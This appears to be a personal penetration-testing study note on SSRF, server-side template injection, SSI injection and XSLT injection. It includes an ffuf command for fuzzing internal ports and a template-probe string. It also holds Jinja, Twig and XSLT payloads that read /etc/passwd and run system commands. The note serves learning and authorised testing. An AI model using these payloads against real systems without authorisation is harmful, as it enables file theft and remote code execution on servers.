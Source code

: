 Navigation: [[Pentesting]]

---
# Table of Contents
1. Server-Side Request Forgery
2. Server-Side Template Injection
3. Server-Side Includes Injection
4. XSLT Injection

# SSRF
SSRF Is a vulnerability where attackers can manipulate a web app into sending unauthorized requests from the server. This usually happens when an app makes HTTP requests to other servers based on user input.

The following URI schemes are commonly used in SSRF:
- `HTTP/S` used to fetch content from other endpoints. The main use case for this is to bypass WAFs or access restricted endpoints.
- `file://` reads a file from the local system, can be used for local file inclusion.
- `gopher://` which is used to send arbitrary bytes to a specified address.

**Enumeration**
When observing requests through Burp, we might notice something like the following:
![[ssrf_identify_2.webp]]

We can see a secondary request being made here. To confirm if we can control this request, try changing the request to our own IP and start a netcat listener. If the netcat listener gets a request, we've confirmed that SSRF exists.

Beyond this, if we can see the contents of the request that was made, the SSRF is not blind.

Upon confirming the vulnerability, we can now use `FFUF` to fuzz:
```shell
ffuf -w ./ports.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"
```

**Exploitation**
First, we may be able to access restricted endpoints. We can fuzz the local subnet as needed. We can also do a directory brute force on the web server itself. We'll first need to find out which server is being used by accessing a non-existent page:
![[ssrf_exploit_2.webp]]

From there we can simply fuzz the local directory using [this](/opt/SecLists/Discovery/Web-Content/raft-small-words.txt) wordlist. We can also try LFI by supplying a URL such as `file:///etc/passwd` and seeing if this gets returned.

We can also use gopher to interact with internal services. Creating URIs for use with gopher can take a while, luckily there's a [tool](https://github.com/tarunkant/Gopherus) for that.

**Mitigating SSRF**
Reference the [OWASP Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
# SSTI
Web apps utilizing templates to generate responses can be vulnerable to SSTI. When an attacker can inject template code, SSTI is available. 

`PayloadAllTheThings` has a nice [guide](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md) for exploiting SSTI. There's also one by [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#twig-php) that goes a bit more in depth.

A very nice tool we can use is [`SSTImap`](https://github.com/vladko312/SSTImap).

**Enumeration**
The most effective way to identify SSTI is to inject some special characters and check the behavior of the web app. A test string we can use that should work against most templates is:
```
${{<%[%'"}}%\.
```

Once we've confirmed the vulnerability exists, we should identify which template engine is being used next. Use the flowchart below:
![[Pasted image 20241130092307.png]]

Follow the red arrow if the web app errors out.

**Jinja Exploits**
```jinja2
# Information disclosure
{{ config.items() }}

# Dump built in functions
{{ self.__init__.__globals__.__builtins__ }}

# LFI
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}

# RCE
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

HackTricks made a very nice [guide](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti) for Jinja specific SSTI.

**Twig Exploits**
```twig
# Information disclosure
{{ _self }}

# LFI
{{ "/etc/passwd"|file_excerpt(1,-1) }}

# RCE 
{{ ['id'] | filter('system') }}
```
# SSI Injection
Server-Side Includes allows web apps to make dynamic content on HTML pages. It's supported by both Apache and IIS. Usually we can infer that it's being used based off of web extensions such as `.shtml`, `.shtm`, and `.stm`. Some configurations allow arbitrary file extensions to be used.

**SSI Directives**
SSI uses directives to generate content dynamically. It consists of the following components: name, parameter name, and value. It uses the following syntax:
```ssi
<!--#name param1="value1" param2="value" -->

Here's an example of config
<!--#config errmsg="Error!" -->

```

A list of payloads can be found [here](https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Include%20Injection/#methodology). There's also a guide by [HackTricks](https://book.hacktricks.xyz/pentesting-web/server-side-inclusion-edge-side-inclusion-injection).

# XSLT Injection
This vulnerability involves manipulating XSLT transformations on the server. XSLT is used to transform XML documents into other formats. Here are the most common XSL elements:
- `<xsl:template>`: Introduces a template, can contain a `match` attribute that contains a path that this template applies to
- `<xsl:value-of>`: extracts value of XML node specified in `select` attribute
- `<xsl:for-each>`: enables looping over all XML nodes specified in `select` attribute

The check if this vulnerability exists, we can inject a `<` and see if this crashes the app. If this works, we can continue with some payloads:
```xml
# Information Disclosure

Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />

# LFI (XSLT v2.0)
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />

# LFI (PHP function support)
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />

# RCE
<xsl:value-of select="php:function('system','id')" />
```

---
Navigation: [[Pentesting]]